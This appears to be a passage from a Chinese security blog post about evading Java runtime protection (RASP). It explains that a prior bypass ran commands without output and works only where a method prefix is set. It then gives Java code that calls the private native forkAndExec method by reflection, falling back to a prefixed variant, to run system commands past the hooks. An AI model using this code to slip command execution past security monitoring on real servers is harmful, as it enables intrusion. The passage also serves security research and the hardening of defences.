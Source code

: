 ![图片](assets/1704158474-7b3ba111287215e95df706a938b4cb78.png)可以绕过并执行命令，但是没回显，并且turn1tup师傅的代码仅适用于设置了MethodPrefix的场景，没设置反而不行。 javasec有一个Linux下反射Native执行命令并回显的demo，直接拿来改改 核心代码：

```plain
try {
        Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });

        forkMethod.setAccessible(true);// 设置访问权限
        int pid = (int) forkMethod.invoke(processObject, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        });
    } catch (Exception e) {
        System.out.println("[-] reflect forkAndExec failed,try to bypass");
        for (Method m : processClass.getDeclaredMethods()) {
            if (m.getName().endsWith("forkAndExec") && !m.getName().equals("forkAndExec")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                int pid = (int) m.invoke(processObject, new Object[]{
                        ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                        null, envc[0], null, std_fds, false
                });
            }
        }
    }
```
